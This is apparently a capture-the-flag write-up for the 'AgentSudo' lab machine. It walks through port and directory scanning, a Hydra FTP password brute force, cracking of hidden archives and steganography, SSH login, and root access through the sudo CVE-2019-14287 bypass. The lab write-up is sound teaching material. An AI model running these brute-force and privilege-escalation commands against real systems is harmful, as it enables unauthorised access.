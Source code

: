 # AgentSudo

IP - 10.10.149.28

## Scanning and Enumeration
nmap:
```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Annoucement
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```
dirsearch:
```
dirsearch -

[21:37:02] 403 -   276B - /.php

[21:37:33] 200 -   218B - /index.php

[21:37:33] 200 -   218B - /index.php/login/

[21:37:48] 403 -   276B - /server-status

[21:37:48] 403 -   276B - /server-status/
```

## Exploit
- To access the site I used BurpSuite to capture the request.
- Modified User-Agent by typing letters "A,B,C,D,E,F...", received "302 Found" which indicates redirection.
![image](https://github.com/user-attachments/assets/d20a6e6d-646e-4023-8f93-0c0c60b91657)
- Added the location: "agent_C_attention.php" to the GET request and got accessed to the site.
![image](https://github.com/user-attachments/assets/fff21a02-49e4-45a2-a072-1d553ca25bd4)

## Brute Force Attack
1. We know FTP server is open.
2. We know user is Chris.
3. We know Chris got a weak password.

To brute force the FTP server I used Hydra - ``` hydra -l chris -P /usr/share/wordlists/rockyou.txt -t 4 ftp://10.10.149.28 ```
![image](https://github.com/user-attachments/assets/d47f74f6-51a5-4472-92cf-ebdfce7d30f8)

Login successful using "chris" as the username and "crystal" as the password.

![image](https://github.com/user-attachments/assets/e673c106-981a-4a1e-a7b6-20958b1b66a9)

## FTP File Transfer

Found 'Agent J' file

![image](https://github.com/user-attachments/assets/4384db87-6b60-41dc-8798-c4457a928ea5)


Transferred the file to my machine

![image](https://github.com/user-attachments/assets/47f6dcd3-619f-4039-b531-ea1f603c800c)

![image](https://github.com/user-attachments/assets/01b9a433-bd67-4fea-9e04-6a85016fe016)

- Went back to the FTP server and moved both images to my machine.
- Found zip file inside one of the images and extracted it by running - ``` binwalk -e cutie.png ```

![image](https://github.com/user-attachments/assets/73b97020-ae76-494b-88fa-66a6e3356521)

- Tried to read the zip file but it is unreadable and needs to be exploit.
- Used zip2john to extract hashed passwords
- Used john to crack the password

![image](https://github.com/user-attachments/assets/acd5f02e-6a4a-43b6-9e20-28d241846988)

- Image cute-alien.jpg is also hiding something but it asks for a passphrase.
- To get the passphrase I used stegseek to crack it.

![image](https://github.com/user-attachments/assets/b139c113-ea9b-4568-9fd9-e52a7c460f0b)

- Found out Agent 'J' name is James. Password: hackerrules!

![image](https://github.com/user-attachments/assets/6994ad57-7c63-45b6-b294-737cd641a0f1)

## SSH Login
- Established SSH access using username: james | password: hackerrules!

![image](https://github.com/user-attachments/assets/d2ce9dbe-c4a6-4104-a397-c81d2138aa66)

- Got the user.txt flag with no issues inside "james" directory.
- In james directory there is an image. To get the name of the incident photo I transferred the image to my machine using - ``` scp james@10.10.149.28:/home/james/Alien_autospy.jpg . ```
- Went to https://tineye.com/ > Uploaded the image and in the results I found an article in foxnews.com called "Roswell alien autopsy".


## Privilege Escalation
- Info found about user james:
```
james@agent-sudo:/$ sudo -l
User james may run the following commands on agent-sudo:
(ALL, !root) /bin/bash
```
- By running - ``` sudo -u#-1 bash ``` it runs bash as the user with UID -1, which is interpreted as root (UID 0) on some systems, potentially allowing privilege escalation if sudo is misconfigured.


reference - https://www.aquasec.com/blog/cve-2019-14287-sudo-linux-vulnerability/


![image](https://github.com/user-attachments/assets/780f9ad1-e29e-4126-b601-97eadf3f01a5)








